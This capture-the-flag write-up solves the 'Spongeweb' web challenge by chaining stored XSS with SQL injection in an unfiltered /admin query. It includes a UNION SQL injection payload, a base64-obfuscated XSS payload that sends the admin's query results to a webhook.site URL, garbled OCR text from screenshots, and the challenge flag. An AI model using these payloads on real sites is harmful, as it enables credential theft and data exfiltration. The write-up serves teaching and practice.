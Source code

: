 # Spongeweb
> I really like hacking.
> I really like privacy.
> And I really like spongebob.
> I combined all of them and created an anonymous sharing platform with HTML support. Feel free to share payloads, malware, and stolen credit cards ;).
> Btw it's called spongeweb, but it has nothing to do with [this](https://trollpasta.com/wiki/SpongeWeb).

## About the Challenge
We were given a source code that you can download the source code [here](spongeweb.zip)

## How to Solve?
This is a combination between Cross-Site Scripting (XSS) and SQL Injection (SQLi). The flag was located in the admin password (You can check in the `users` table). Instead of stealing the cookie, we can exploit the website using SQL Injection because of there is no filter in `/admin` endpoint

```python
@app.route('/admin', methods=['GET', 'POST'])
def admin():
	if 'username' not in session:
		return redirect(url_for('login'))
	#view analytics
	if 'query' in request.args:
		query = request.args.get('query')
		try:
			cur = get_db().execute("SELECT count(*) FROM {0}".format(query))
		except:
			return render_template('adminPanel.html') , 500
		result = cur.fetchall()
		cur.close()
		return render_template('adminPanel.html', result=result, param=query)	
	else:
		return render_template('adminPanel.html')
```

And we need to print the flag by using `users union select (select password from users)--` payload. Example:

```
GET /admin?query=users union select (select password from users)--
Host: xxxxx
User-Agent: xxxx
...
```

And because we can't access `/admin` endpoint directly, we need to exploit the website using XSS to trick the admin to execute SQL injection and then send the result into our webhook. Here is the final payload I used to obtain the flag

```
<img src=x onerror=eval(atob("ZmV0Y2goJy9hZG1pbj9xdWVyeT11c2VycyUyMHVuaW9uJTIwc2VsZWN0JTIwJTI4c2VsZWN0JTIwcGFzc3dvcmQlMjBmcm9tJTIwdXNlcnMlMjktLScpLnRoZW4oKHIpPT5yLnRleHQoKSkudGhlbigocik9PndpbmRvdy5sb2NhdGlvbi5ocmVmPSdodHRwczovL3dlYmhvb2suc2l0ZS9iN2M3YjMwYy0xNTM2LTQ2NzItYTE1Yy02NDZiY2QxZWYyOGUvJyt3aW5kb3cuYnRvYShyKSk="))>
```

Create the thread and then report the URL to admin. My webhook:


[Image extracted text: Request Details
Permalink
Raw content
Copy as
REQUESTS (1/500)
Newest First
Search Query
GET
https:IIwebhook sitelb7c7b3Oc-1536-4672-a15c-646bcd1ef28e/PCFkb2
NOeXBIIGhObWw+CjxodG1sPgoKPGhIYWQ+Cgk8dGIObGU+QWRtaW4g
UGFuZWw8L3RpdGxIPgoJPGxpbmsgcmVsPSJzdHIsZXNoZWVOliBocmV
GET
#9679e 95.217.239.37
mPSIvc3RhdGIjLZFkbWluL XNOeWxlLmNzcyl+Cgk8bGluayByZWwglmljbz
29/10/2023 16.57.35
4iIGhyzwY9lmRhdGE6O2Jhc2UZNCxpVkJPUncwSOdnbzOiPgo8L ZhIYW
Q+Cgo8YmgkeT4KCQo8aDE+QWRtaW4gUGFuZWw8L2gxPgo8ZmgybS
BtZXRobzQglmdldClgYWNOaWguPSIvYWRtaW4iPgoJPGxhYmVsPkFuY
WxbdGljczwvbGFiZWw+CgkBaWSwdXQgdHlwZTOidGV4dClgbmFtZTOicX
VlcnkiPixicj4KCTxpbnB1dCBOeXBIPSJzdWJtaXQilHZhbHVIPSJTZWFyY2
giPgo8LZZvcmO+CiAgICAKPGgxPIJIc3VsdDwvaDE+CgoJPGgyPnVzZXJz
IHVuaWgulHNIbGVjdCAc2VsZWNOIHBhc3N3b3JkIGZybzOgdXNIcnMpL
SOgOiAxPC9oMj4KCQoJPGgyPnVzZXJzIHVuaW9ulHNIbGVjdCAoc2Vsz
WNOIHBhc3N3b3JkIGZybzOgdXNlcnMpLSOgOiBzcmRubGVueIhTUINfY
3IwUBNfUzFUM19zUDBuRzN3RWJfU1FMaXo8L2gyPgoJCgo8ZmgybSBt
ZXRobzQglmdldClgYWNOaWguPSIvbG9nb3VOlj4KCTxpbnBIdCBOeXBIP
SJzdWJtaXQilHZhbHVIPSJMbZdvdXQiPgo8L ZZvcmO+CgoKCQoJCgkKP
C9ibZRSPgoKPCgodGIsPg-=
Host
95.217.239.37
Whois
Shodan
Netify   Censys
Date
29/10/2023 16.57.35 (6 hours ago)
Size
0
bytes
ID
9679e7d2-8082-404f-ae12-52120a857914]


Decode the `Base64` encoded string to obtain the flag


[Image extracted text: PCFkbZNOeXBLIGhobW+CjxodGlsPgoKPGhLYWQ+Cgk8dGlObGU+QWRtaW4gUGFuZWw8L3RpdGx LP
From Base64
goJPGxpbmsgcmVsPSJzdHLsZXNoZWVOIiBocmVmPSIvc3RhdGljLZFkbWLuLXNOeWx LLMNZcyI+Cg
k8bGluayByZWw9Imljb24iIGhyZWY9ImRhdGE6O2Jhc2UZNCxpVkJPUncwsodnbzoiPgo8LZhLYWQ
Alphabet
A-Za-z0-9+/=
+Cgo8YmgkeT4KCQo8aDE+QWRtaWAgUGFuZWw8LZgxPgo8ZmgybSBtZXRob2QgImdldCIgYWNOaWgu
PSIvYWRtaW4iPgoJPGxhYmVsPkFuYWxSdGljczwvbGFiZW-Cgk8aWSwdXQgdH wZTOidGVAdCIgb
mFtZTOicXVlcnkiPjxicj4KCTxpbnBldCBOeXB PSJzdWJtaXQiIHZhbHVIPSJTZWFyY2giPgo8LZ
Remove non-alphabet chars
Strict mode
Zvcmu+CiAgICAKPGgxP JIc3VsdDwvaDE+CgoJPGgyPnVzZXJzIHVuaWguIHNbGVjdCAocZVsZWN
OIHBhc3N3b3JkIGZybzogdXNIcnMpLSOgOiAxPC9oMj 4KCQoJPGgyPnVzZXJzIHVuaWguIHNLbGVj
dCAocZVsZWNOIHBhc3N3b3JkIGZybzogdXN cnMpLSOgOiBzcmRubGVuelhTUINfY3IwUBNfUzFUM
19ZUDBuRZNBRWJfUIFMaXo8LZgyPgoJCgo8ZmgybSBtZXRob2QgImdldCIgYWNOaWguPSIvbGgnb3
VOIj4KCTxpbnBldCBOeXB PSJzdWJtaXQiIHZhbHV PSJMbZdvdXQiPgo8LZZvcmo+CgoKCQoJCgk
KPC9ibZRSPgoKPC9odGlsPg==
AbC
872
5
TT
Raw Bytes
LF
Output
0 0 @
{3
<hl-Result</hl>
<hzzusers
union
select
(select
password
from
users) _
1</h2>
<hzzusers
union
select
(select password from
users) _
srdnlen{XSSS_cross_S1T3_sPOnG3wEb_SQLi}</h2>
<form method-"get"
action-" /logout">
<input type-"submit"
value-"Logout">
<lformz]


```
srdnlen{XSSS_cr0Ss_S1T3_sP0nG3wEb_SQLi}
```